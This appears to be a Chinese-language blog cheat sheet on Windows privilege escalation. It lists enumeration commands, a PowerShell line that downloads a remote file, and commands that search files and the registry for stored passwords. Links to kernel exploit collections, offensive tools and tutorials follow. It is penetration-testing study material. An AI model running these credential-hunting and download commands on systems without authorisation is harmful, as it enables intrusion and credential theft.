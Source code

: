 ```yaml
---
layout: default
title:  "windows提权"
date:   2019-03-03 15:16
categories: post
---
```

相关文章：
- https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
- https://www.hackingarticles.in/windows-kernel-exploit-privilege-escalation/

Windows常用命令

    命令  描述
    systeminfo  打印系统信息
    whoami  获得当前用户名
    whoami /priv  当前帐户权限
    ipconfig  网络配置信息
    ipconfig /displaydns  显示DNS缓存
    route print  打印出路由表
    arp -a  打印arp表
    hostname  主机名
    net user  列出用户
    net user UserName  关于用户的信息
    net use \SMBPATH Pa$$w0rd /u:UserName  连接SMB
    net localgroup  列出所有组
    net localgroup GROUP  关于指定组的信息
    net view \127.0.0.1  会话打开到当前计算机
    net session  开放给其他机器
    netsh firewall show config  显示防火墙配置
    DRIVERQUERY  列出安装的驱动
    tasklist /svc  列出服务任务
    net start  列出启动的服务
    dir /s foo  在目录中搜索包含指定字符的项目
    dir /s foo == bar  同上
    sc query  列出所有服务
    sc qc ServiceName  找到指定服务的路径
    shutdown /r /t 0  立即重启
    type file.txt  打印出内容
    icacls “C:\Example”  列出权限
    wmic qfe get Caption,Description,HotFixID,InstalledOn  列出已安装的布丁
    (New-Object System.Net.WebClient).DownloadFile(“http://host/file”,”C:\LocalPath”)  利用ps远程下载文件到本地
    accesschk.exe -qwsu “Group”  修改对象（尝试Everyone，Authenticated Users和/或Users）

    参考url：https://ss64.com/nt/
    提权exp推荐

    https://github.com/SecWiki/windows-kernel-exploits
    https://www.exploit-db.com/local/
    https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
    搜索系统上可疑敏感文件

    dir C:\*vnc.ini /s /b /c
    或者在名称中包含关键词的项目：

    dir C:\ /s /b /c | findstr /sr \*password\*
    或者可以在文件内容中搜索password之类的关键字：

    findstr /si password \*.txt | \*.xml | \*.ini
    可以查询注册表，例如，字符串password：

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    常用工具

    Metasploit
    Sherlock
    windows-privesc-check
    Windows-Exploit-Suggester
    PowerUp, now part of PowerSploit
    Nishang
    推荐阅读：

    Windows权限升级基础
    https://www.fuzzysecurity.com/tutorials/16.html

    Windows权限升级第1部分：本地管理员权限
    https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

    Pentesters的Windows权限提升方法
    https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

    “嗯，快速升级”常见的Windows权限升级向量
    https://toshellandback.com/2015/11/24/ms-priv-esc/

    自动执行Windows权限提升
    http://resources.infosecinstitute.com/automating-windows-privilege-escalation/

    Windows 8上的Extreme Privilege Escalation
    https://www.blackhat.com/docs/us-14/materials/us-14-Kallenberg-Extreme-Privilege-Escalation-On-Windows8-UEFI-Systems.pdf

    滥用令牌权限进行Windows本地权限提升
    https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

    Microsoft Windows令牌绑定权限提升漏洞
    https://tools.cisco.com/security/center/viewAlert.x?alertId=15702

    您对GPP了解多少？
    https://www.toshellandback.com/2015/08/30/gpp/

    Windows操作系统中的Privelege升级
    http://www.cs.toronto.edu/~arnold/427/15s/csc427/indepth/privilege-escalation/privilege-escalation-windows.pdf

    滥用EOP的令牌权限
    https://github.com/hatRiot/token-priv

    利用弱文件夹权限提升权限
    http://www.greyhathacker.net/?p=738

    Metasploit Unleashed：特权升级
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

    位操作：将系统令牌作为普通用户窃取
    https://zerosum0x0.blogspot.nl/2016/02/bits-manipulation-stealing-system.html

    不带引号的服务路径
    https://www.commonexploits.com/unquoted-service-paths/

    Windows中的权限提升
    https://codemuch.tech/2017/05/14/priv-esc-win.html

    SysInternals AccessChk工具
    https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

    AccessChk.exe使用指南
    https://blogs.technet.microsoft.com/secguide/2008/07/21/how-to-use-accesschk-exe-for-security-compliance-management/

    SubInACL.exe下载
    https://www.microsoft.com/en-us/download/details.aspx?id=23510

    当我输入getsystem时会发生什么
    https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

    动态链接库搜索顺序
    https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

    进程监视器下载
    https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

    动态链接库安全性
    https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx

    Windows文件和文件夹权限指南
    https://msdn.microsoft.com/en-us/library/bb727008.aspx

    SECWIKI
    https://github.com/SecWiki

    Acess Tokens
    https://msdn.microsoft.com/en-us/library/windows/desktop/aa374909(v=vs.85).aspx

    访问令牌的工作原理
    https://technet.microsoft.com/en-us/library/cc783557(v=ws.10).aspx

    Windows REG参考
    https://ss64.com/nt/reg.html

    Windows CMD参考
    https://ss64.com/nt/

    如何使用Regedit
    https://www.techsupportalert.com/content/learn-how-use-windows-registry-editor-regedit-one-easy-lesson.htm

    调用-WCMDump
    https://securityonline.info/invoke-wcmdump-dump-windows-credentials-from-the-credential-manager/

    WMIC命令参考
    https://www.computerhope.com/wmic.htm

    PowerShell参考
    https://ss64.com/ps/

    penetration-testing-ninjitsu-with-ed
    http://carnal0wnage.blogspot.com/2008/02/penetration-testing-ninjitsu-with-ed.html

    DLL劫持易受攻击的应用程序
    https://www.exploit-db.com/dll-hijacking-vulnerable-applications/

    Windows/Linux本地特权升级研讨会
    https://github.com/sagishahar/lpeworkshop

    如何使用组策略劫持攻击拥有任何Windows网络
    https://labs.mwrinfosecurity.com/blog/how-to-own-any-windows-network-with-group-policy-hijacking-attacks/

    真实世界中的Pentesting：组策略Pwnage
    https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

    Windows内核漏洞利用
    https://pentestlab.blog/2017/04/24/windows-kernel-exploits/